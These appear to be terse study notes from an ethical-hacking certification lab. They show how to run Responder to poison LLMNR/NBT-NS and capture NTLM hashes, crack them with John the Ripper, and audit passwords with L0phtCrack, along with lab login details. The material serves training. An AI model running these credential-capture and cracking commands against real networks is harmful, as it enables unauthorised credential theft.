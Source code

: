 Responder is an LLMNR, NBT-NS, and MDNS poisoner. It responds to specific NBT-NS (NetBIOS Name Service) queries based on their name suffix. By default, the tool only responds to a File Server Service request, which is for SMB.
- Perform active online attack to crack the system’s password using **Responder**
-ifconfig
**-I**: specifies the interface (here, **ens3**).
[parrot]

	cd Responder
	chmod +x ./Responder.py
	ifconfig
	sudo ./Responder.py -I ens3
	./Responder.py -I eth0 -wrf
	
	[Windows 11]
	Login: jason/querty
	start right click and Run
	\\CEH-Tools

	[Parrot]
	Started fetching NTLM details
	it will also store logs in \home\ubuntu\Responder\logs\SMB-NTLM.. file...

Cracking NTLM Hash using John-The-Ripper
-John the Ripper is a free, open-source password cracking and recovery security auditing tool available for most operating systems.

You need to crack the password --> john the ripper

	sudo snap install john-the-ripper
	sudo john /home/ubuntu/Responder/logs/SMP file
It will capture the password for the user

To restrict it to the wordlist mode only, but permitting the use of word mangling rules:

	john --wordlist=password.lst --rules passwd

**Audit system passwords using L0phtCrack**

**- use the **L0phtCrack** tool for auditing the system passwords of machines in the target network and later enhance network security by implementing a strong password policy for any systems with weak passwords.**

[Windows11]

	start the l0phtCrack
	1. Password Auditing wizard
	2. Windows
	3. A remote machine
	4. Host (10.10.1.22/credentials, domain - CEH.com)
	5. Thorough pwd audit 
	6. Generate Report at end of auditing, store result
	7. Run job immediately


**- Find vulnerabilities on exploit sites**
Exploit-DB - search details
**- Exploit client-side vulnerabilities and establish a VNC(Virtual Network Computing) session**
